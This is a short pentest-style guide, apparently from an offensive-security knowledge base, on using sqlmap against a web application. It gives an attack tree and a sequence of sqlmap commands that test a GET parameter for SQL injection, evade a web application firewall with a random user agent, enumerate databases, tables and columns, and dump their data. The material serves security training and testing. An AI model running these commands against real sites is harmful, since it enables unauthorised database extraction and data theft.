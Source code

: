 #  Scanning a webserver with SQLMap

## Attack tree 

```text
1 Gather information with sqlmap
    1.1 Find a page url with a GET request parameter (AND)
    1.2 Test different SQL injection methods against the request parameter (AND)
    1.3 List information about the existing databases (AND)
    1.4 List information about tables present in a particular database (AND)
    1.5 List information about the columns of a particular table (AND)
    1.6 Dump the data
```

## Examples

Identify a page in the target web application that displays data and note the URL.
Use a standard HTTP GET based request against a URI with a request parameter (?id=1). This will test different SQL 
injection methods against the id parameter.
    
    # sqlmap -u http://urloftargetpage/page.php?id=1

When blocked by a Web Application Firewall (WAF), try using a different user agent with the `--randomagent` parameter.

    # sqlmap -u http://urloftargetpage/page.php?id=1 --random-agent

If SQL injections are successful, the `--dbs` parameter gives information about the database, such as the 
type of database and the database name.

    sqlmap -u http://urloftargetpage/page.php?id=1 --dbs

List information about tables present in a particular database:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> --tables

List information about the columns of a particular table:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> -T <tablenname> --columns

Dump data:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> -T <tablename> -C <multiple columnnames separated by commas>--dump

## Tools
* [SQLMap](https://www.kali.org/tools/sqlmap/)
* [SQLMap wiki](https://github.com/sqlmapproject/sqlmap/wiki/Introduction)
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)
